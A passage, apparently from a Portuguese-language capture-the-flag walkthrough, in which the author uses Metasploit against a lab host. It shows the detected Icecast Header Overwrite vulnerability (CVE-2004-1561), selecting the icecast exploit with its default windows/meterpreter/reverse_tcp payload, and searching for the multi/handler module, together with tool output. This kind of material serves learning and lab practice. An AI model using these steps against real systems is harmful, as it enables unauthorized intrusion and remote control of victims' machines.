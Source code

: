 Esse comando não mostrará muito no momento, porém é apenas para que eu perceba que o Metasploit vai procurar por vulnerabilidades já conhecidas.

```
Vulnerabilities
===============

Timestamp              Host          Name                      References
---------              ----          ----                      ----------
2022-02-10 21:10:28 U  10.10.74.229  Icecast Header Overwrite  CVE-2004-1561,OSVDB-10406,BID
TC                                                             -11271,URL-http://archives.ne
                                                               ohapsis.com/archives/bugtraq/
                                                               2004-09/0366.html
```


Agora que escaneamos o sistema da nossa vitima, vamos tentar conectar com um payload do metasploit. Primeiro, precisamos procurar pelo payload do alvo. Podemos simplesmente escrever `use` junto com uma string que será o exploit alvo. Por exemplo, eu digitei:

```
use icecast
```

e me apareceu as seguintes informações:

```
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/icecast_header
```

Mesmo esse comando sendo muito útil, ainda não é o exploit que eu desejo. Por isso, vou procurar utilizando o comando:

```
search multi/handler
```

```
Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/linux/local/apt_package_manager_persistence  1999-03-09       excellent  No     APT Package Manager Persistence
   1  exploit/android/local/janus                          2017-07-31       manual     Yes    Android Janus APK Signature bypass
   2  auxiliary/scanner/http/apache_mod_cgi_bash_env       2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   3  exploit/linux/local/bash_profile_persistence         1989-06-08       normal     No     Bash Profile Persistence
   4  exploit/linux/local/desktop_privilege_escalation     2014-08-07       excellent  Yes    Desktop Linux Password Stealer and Privilege Escalation
   5  exploit/multi/handler                                                 manual     No     Generic Payload Handler
```